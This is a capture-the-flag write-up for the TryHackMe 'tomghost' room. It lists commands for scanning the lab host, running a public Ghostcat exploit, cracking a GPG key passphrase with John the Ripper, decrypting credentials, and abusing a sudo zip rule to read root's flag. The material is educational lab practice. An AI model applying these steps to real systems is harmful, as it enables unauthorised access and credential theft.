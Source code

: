```yaml
---
description: https://tryhackme.com/room/tomghost
---
```


# tomghost

## :writing\_hand: Solution

### Compromise this machine and obtain user.txt

```
nmap 10.10.188.102
```

![](<../../.gitbook/assets/Screenshot from 2020-09-29 09-31-01.png>)

```
searchsploit ghostcat
searchsploit -m 48143
python 48143.py 10.10.188.102 
```

![](<../../.gitbook/assets/Screenshot from 2020-09-29 09-45-17.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-29 09-48-12.png>)

```
ssh skyfuck@10.10.188.102
$ ls -lA
$ gpg --allow-secret-key-import --import tryhackme.asc
$ gpg --list-secret-keys
```

![](<../../.gitbook/assets/Screenshot from 2020-09-29 10-24-45.png>)

```
vim tryhackme.asc
gpg2john tryhackme.asc > gpg.txt
john --wordlist=/usr/share/wordlists/rockyou.txt gpg.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-29 10-08-45.png>)

```
$ gpg -d credential.pgp
$ su - merlin
$ cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-29 10-09-30.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-29 10-10-36.png>)

### Escalate privileges and obtain root.txt

```
$ sudo -l
$ sudo /usr/bin/zip root.zip /root/root.txt
$ unzip -c root.zip
```

![](<../../.gitbook/assets/Screenshot from 2020-09-29 10-20-39.png>)

## Support Material

{% embed url="https://www.exploit-db.com/exploits/48143" %}

